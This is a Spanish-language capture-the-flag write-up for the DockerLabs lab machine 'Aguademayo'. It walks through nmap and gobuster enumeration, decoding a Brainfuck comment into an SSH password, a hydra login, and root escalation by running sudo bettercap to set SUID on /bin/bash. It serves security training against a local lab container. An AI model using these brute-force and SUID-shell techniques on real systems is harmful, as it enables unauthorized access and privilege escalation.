

# 🖥️ Writeup - Aguademayo 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip aguademayo.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh aguademayo.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-12 17:13 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000023s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.80 seconds
```

Tenemos abiertos los puertos `22` y `80`.

Accedemos por `HTTP` y nos encontramos con una página por defecto de `Apache2`.

Al inspeccionar el código fuente, encontramos un comentario al final:

```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```

se trata de un código escrito en `Brainfuck`, así que lo pasamos por un intérprete.



El resultado obtenido, al juntar todas las letras, es `bebeaguaqueessano`.

Probamos un ataque de `fuerza bruta` por `SSH` con el usuario `bebeaguaqueessano`, pero no encontramos ninguna coincidencia.

Es posible que `bebeaguaqueessano` sea una contraseña y no un usuario, así que continuamos buscando.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar recursos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/index.html           (Status: 200) [Size: 11142]
Progress: 284272 / 1543906 (18.41%)
```

Encontramos un directorio `/images` y, al acceder, hallamos una imagen llamada `agua_ssh.jpg`, lo que nos hace pensar que quizá el usuario del sistema sea `agua`.

Comprobamos si las credenciales `agua` : `bebeaguaqueessano` son válidas.

```bash
hydra -l agua -p bebeaguaqueessano ssh://172.17.0.2
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-12 17:40:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: agua   password: bebeaguaqueessano
```

Accedemos por SSH.

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for agua on 8b7d14fcd35a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User agua may run the following commands on 8b7d14fcd35a:
    (root) NOPASSWD: /usr/bin/bettercap
```

verificamos que podemos ejecutar el binario `bettercap` con privilegios de `root`. Lo aprovechamos para ejecutar código con privilegios de administrador.

```bash
sudo bettercap
```

Info:
```
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [15:43:48] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »
```

Una vez dentro de la interfaz de comandos, otorgamos permisos `SUID` al binario `/bin/bash`.

```bash
! chmod +s /bin/bash
```

Salimos de la interfaz y escalamos a `root` con el siguiente comando:

```bash
/bin/bash -p
```

Info:
```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!